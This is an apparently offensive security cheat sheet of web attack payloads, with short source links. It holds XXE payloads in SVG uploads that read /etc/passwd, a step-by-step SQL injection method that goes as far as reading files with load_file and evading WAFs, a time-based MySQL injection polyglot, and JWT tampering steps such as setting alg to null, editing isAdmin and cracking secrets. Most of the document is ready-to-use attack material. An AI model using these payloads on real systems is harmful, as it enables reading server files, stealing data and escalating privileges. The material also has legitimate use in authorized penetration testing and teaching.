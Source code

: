 
**XXE File Upload SVG**

```
#https://scottc130.medium.com/understanding-xxe-vulnerabilities-7e389d3972c2

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

<?xml version="1.0" encdoing="UTF-8" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="14" x="0" y="16">&xxe;</text></svg>  

```

**SQL Injection**

```

1)Error generation with untrusted input or special characters.
2)Finding total number of columns with order by or group by or having.
3)Finding vulnerable columns with union operator.
4)Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat().
5)Extracting full table and column names with group_concat() and extracting the data with same function.
6)Checking file privileges with file_priv.
7)Accessing system files with load_file(). and advance exploitation afterwards.
WAF evasion if any.
```

**Ultimate MySQL Injection Payload (Detetify)**

```
#https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/

IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/


```

**JWT Exploiting**

```
#https://github.com/wisec/OWASP-Testing-Guide-v5/blob/master/Testing_for_APIs.md

Full details above.

1) Access JWT Debugger too base64 decode and ensure that nothing sensitive is being transferred. Make sure no PII is being transferred etc.
	2) Try chang esome values and obtain IDOR, like `id` or `isAdmin`
	3) Modigy ALG attribute, set HS256 to null


4) JWT Crack - https://github.com/brendan-rius/c-jwt-cracker - Secret used to encrypt tokens may be weak.
```
